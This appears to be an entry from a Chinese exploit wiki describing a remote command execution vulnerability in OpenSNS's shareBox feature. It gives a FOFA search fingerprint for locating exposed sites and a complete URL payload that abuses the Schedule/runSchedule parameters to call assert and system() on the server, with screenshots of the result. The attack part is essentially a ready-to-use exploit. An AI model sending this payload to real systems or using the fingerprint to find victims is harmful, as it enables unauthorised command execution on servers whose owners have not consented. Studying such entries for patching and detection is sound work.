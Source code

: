 ```yaml
---
title: OpenSNS shareBox 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - OpenSNS
---
```


# OpenSNS shareBox 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> OpenSNS

## FOFA

> [!NOTE]
>
> icon_hash="1167011145"

## 漏洞复现

登录页面如下

![image-20210629150345721](/img/20210924020309013660.png)



发送Payload

```
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

![image-20210629150412729](/img/20210924020309193884.png)